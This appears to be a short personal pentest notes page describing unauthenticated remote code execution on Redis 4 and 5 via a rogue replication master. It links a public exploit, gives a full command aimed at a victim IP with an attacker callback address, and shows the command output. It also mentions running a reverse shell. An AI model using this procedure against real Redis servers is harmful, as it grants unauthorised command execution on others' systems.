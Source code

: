 ```yaml
---
layout: post
title: Redis 4 and 5 Unauthenticated RCE
description: Redis 4 and 5 Unauthenticated RCE
summary: Redis 4 and 5 Unauthenticated RCE
tags: [rce,foothold]
minute: 1
---
```

# Overview
You can deploy a rougue redis server and make use of its replication capabilities to execute arbritrary commands inside the server.

::NOTE::

Looks like this is for linux only

![](/spindel/assets/Redis%204%20and%205%20Unauthenticated%20RCE/357378FF-379F-4EFA-81F7-4A12EC11EEFC.png)

# Steps
* Download this [exploit](https://github.com/vulhub/redis-rogue-getshell)
* Follow instruction on how to compile `exp.so`
* Run it from attacker machine

```bash
# 10.10.70.254 - victim ip
# 10.11.40.33 - attacker ip
python3 redis-master.py -r 10.10.70.254 -p 6379 -L 10.11.40.33 -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

* Sample output

```
...truncated...


# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0

uid=112(redis) gid=123(redis) groups=123(redis)
```

# Notes
* If you use reverse shell as your command, this may break the redis for some reasons. So you only have 1 chance to do it because next time it would not work.
* This might not work if commands such as `MODULE` is not available on the target redis instance

# References
* https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
* [Pavel Toporkov - Redis post-exploitation](https://www.youtube.com/watch?v=Jmv-0PnoJ6c)